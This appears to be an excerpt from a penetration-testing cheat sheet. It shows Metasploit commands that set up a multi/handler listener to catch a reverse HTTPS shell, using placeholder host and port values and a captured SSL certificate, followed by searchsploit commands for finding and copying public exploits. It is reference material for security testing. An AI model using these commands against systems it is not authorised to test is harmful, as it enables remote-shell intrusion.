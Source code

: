 ```console
msf6 payload(reverse_https) > use exploit/multi/handler
msf6 exploit(handler) > set LHOST <LHOST>
msf6 exploit(handler) > set LPORT <LPORT>
msf6 exploit(handler) > set HANDLERSSLCERT /home/<USERNAME>/.msf4/loot/20240229080801_default_142.250.186.164_142.250.186.164__899022.pem
msf6 exploit(handler) > set stagerverifysslcert true
msf6 exploit(handler) > exploit -j
```

## searchsploit

```console
$ searchsploit <NAME>
$ searchsploit --cve <CVE>
$ searchsploit -m <ID>
$ searchsploit -x <ID> / <PATH>
```
